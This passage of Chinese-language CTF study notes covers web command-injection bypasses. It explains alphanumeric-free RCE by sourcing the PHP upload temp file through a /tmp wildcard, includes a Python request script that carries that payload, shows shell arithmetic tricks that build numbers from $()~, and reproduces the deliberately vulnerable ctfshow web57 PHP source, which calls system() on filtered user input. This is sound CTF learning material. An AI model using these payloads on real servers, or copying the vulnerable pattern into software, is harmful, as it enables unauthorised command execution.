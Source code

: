 若是linux命令，可以考虑使用||进行截断。

### 无数字字母RCE（php5

建议再读一下[p神文章]([无字母数字webshell之提高篇 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=2#reply-list))

原理：使用Post方式向PHP上传文件的时候，Linux会在/tmp下生成一个九位字符的随机文件。此时使用通配符，/???/?????????有多种匹配结果，但随机文件的最后一个字符有时候可能为大写，因此通配符改为/???/????????[@-[]，即可匹配出这个文件。

匹配出这个文件后，可以直接使用. /???/????????[@-[]执行这个文件。.的用法如下：

```bash
. xxxfile # 等价于 source xxxfile
source xxxfile # 和上面等价，相当于执行这个文件，把这个文件当做shell脚本运行，重要的是不需要文件有x权限
./xxxfile # 相当于开辟一个子shell来执行这个文件，需要x权限
```

此处写一个Python脚本方便回忆。也可以手动构造一个burp的文件上传包。

```python
import requests

url = "http://192.168.81.159:9999/"
files = {'file': ('1.php', 'ls')}
response = requests.post(url + "?c=.+/???/????????[@-[]", files=files)
print(response.text)
```

### 使用$、(、)、~构造数字

在shell中，有以下几个特点：

```shell
$(()) # 结果为0
~$(()) # 结果为~0
# $(()) 包裹的部分中会进行一次计算，例如$((2+2))结果为4，因此：
$((~$(()))) # 结果为-1，因为~0计算结果为-1，要得到-2，可以有构造出$((-1-1))，因此：
$(($((~$(())))$((~$(()))))) # 结果为-2，因此什么-3、-4、乃至-100都可以以此类推了
# 单纯看计算的话，~是取相反数再减1，例如~0=-1，~36=-37。因此36=~-37
```

ctfshow web入门57

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```
